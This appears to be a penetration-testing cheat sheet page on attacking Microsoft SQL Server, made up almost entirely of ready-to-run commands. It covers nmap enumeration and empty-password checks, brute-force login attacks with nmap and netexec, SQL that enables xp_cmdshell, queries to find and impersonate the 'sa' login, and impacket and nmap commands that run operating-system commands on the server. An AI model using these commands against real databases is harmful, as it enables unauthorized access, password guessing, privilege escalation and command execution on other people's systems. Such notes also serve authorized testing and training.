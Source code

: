 ```yaml
---
description: Recon and pwning MSSQL Server
---
```


# MSSQL

### Enumerate MSSQL with Nmap

{% code overflow="wrap" %}
```bash
nmap --script ms-sql-info -p 1433 10.10.10.1
nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 10.10.10.1
# enumerate user with empty password
nmap -p 1433 --script ms-sql-empty-password 10.10.10.1
```
{% endcode %}

### Dictionary Attack

{% code overflow="wrap" %}
```bash
# nmap
nmap -p 1433 --script ms-sql-brute --script-args userdb=/opt/common_users.txt,passdb=/opt/unix_passwords.txt 10.10.10.1

# netexec
netexec mssql 10.10.10.1 -u /opt/common_users.txt -p /opt/unix_passwords.txt --local-auth --continue-on-success | grep -v "Login failed for user"
```
{% endcode %}

### Enable xp\_cmdshell

{% code overflow="wrap" %}
```sql
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
```
{% endcode %}

### Impersonate Other User

{% code overflow="wrap" %}
```sql
# Find users you can impersonate
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
# Check if the user "sa" or any other high privileged user is mentioned

# Impersonate sa user
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
```
{% endcode %}

### Impacket-MSSQLClient

```bash
impacket-mssqlclient admin:p@ssw0rd@10.10.10.1
# check if we have 'sa' privilege
select IS_SRVROLEMEMBER ('sysadmin')
# execute command using xp_cmdshell
xp_cmdshell "whoami /priv"
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiNC_SOLTJDrgSTRUw0w-mM4S3OBn2VgbKzbqysFXxuh4DML0q9fGFrZJQQL14eKyweQoCVzRDLYW9PXF2GeCSoRAFwpNsCS97swvAQ27X_6ZpanQCbZDIjo4uJ_BH2hDMQ8VZ2loKM_uSMZ7hdFkNUhPTXeDc3J2ASqnqM6A-07nJCw8xgygxk9SEJvzI/s1068/mssql%20impacket.png" alt=""><figcaption><p>Impacket-MSSQLClient</p></figcaption></figure>

Or, use Nmap to execute xp\_cmdshell:

{% code overflow="wrap" %}
```bash
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password='p@ssw0rd',ms-sql-xp-cmdshell.cmd="ipconfig" 10.10.10.1
```
{% endcode %}
